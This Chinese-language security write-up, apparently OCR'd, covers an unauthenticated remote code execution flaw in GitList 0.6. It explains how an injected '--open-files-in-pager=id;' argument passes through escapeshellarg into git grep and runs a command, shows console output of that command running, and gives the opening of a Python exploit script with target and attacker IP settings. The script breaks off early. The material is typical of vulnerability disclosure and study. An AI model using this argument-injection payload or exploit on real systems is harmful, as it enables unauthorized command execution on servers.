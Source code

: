 > 
简化后


```
$query = 'sth';
system('git grep -i --line-number '.escapeshellarg($query).' *');

```

> 
当我们查看git grep文档时


```
--open-files-in-pager[=&lt;pager&gt;]
Open the matching files in the pager (not the output of grep). If the pager happens to be "less" or "vi", and the user specified only one pattern, the first file is positioned at the first match automatically.

```

> 
所以基本上–open-files-in-pager就像是在-exec中执行find.


```
$query = '--open-files-in-pager=id;';
system('git grep -i --line-number '.escapeshellarg($query).' *');

```

> 
当我们输入这些进控制台


```
$ git grep -i --line-number '--open-files-in-pager=id;' *
uid=1000(user) gid=1000(user) grupy=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
id;: 1: id;: README.md: not found

```

> 
最后的exp


```
import requests
from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
import urlparse
import urllib
import threading
import time
import os
import re

url = 'http://192.168.1.1/gitlist/'
command = 'id'
your_ip = '192.168.1.100'
your_port = 8001

print "GitList 0.6 Unauthenticated RCE"
print "by Kacper Szurek"
print "https://security.szurek.pl/"

print "REMEMBER TO DISABLE FIREWALL"

search_url = None
r = requests.get(url)
repos = re.findall(r'/([^/]+)/master/rss', r.text)

```